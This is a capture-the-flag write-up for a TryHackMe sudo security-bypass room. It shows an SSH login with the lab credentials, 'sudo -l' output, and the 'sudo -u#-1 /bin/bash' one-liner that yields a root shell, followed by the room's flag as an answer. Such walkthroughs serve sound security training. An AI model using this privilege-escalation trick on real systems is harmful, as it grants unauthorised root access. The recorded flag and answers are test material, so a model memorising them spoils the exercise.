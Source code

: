 # Sudo Security Bypass

## Task 1: Deploy!

### Deployed!

### No answer needed

##

## Task 2: Security Bypass

### What command are you allowed to run with sudo?

Let's first connect to the machine using `ssh` and the following credentials:

| Username  | Password  |
| --------- | --------- |
| tryhackme | tryhackme |

```
┌──(kunal㉿kali)-[~]
└─$ ssh tryhackme@10.10.150.83 -p 2222
The authenticity of host '[10.10.150.83]:2222 ([10.10.150.83]:2222)' can't be established.
ED25519 key fingerprint is SHA256:4bgDOPxI7PFcv5CMfQYEkO7uBqKjLKhd7zZwmE8uwbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.150.83]:2222' (ED25519) to the list of known hosts.
tryhackme@10.10.150.83's password: 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ 
```

Now, we can list out the command we are allowed to run as `sudo`.

```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```

### Answer

```
/bin/bash
```

###

### What is the flag in /root/root.txt?

We can find the exploit on the following page.

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

```
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# 
```

We can now read the flag in `/root/root.txt`.

```
root@sudo-privesc:~# cat /root/root.txt 
THM{l33t_s3cur1ty_bypass}
```

### Answer

```
THM{l33t_s3cur1ty_bypass}
```
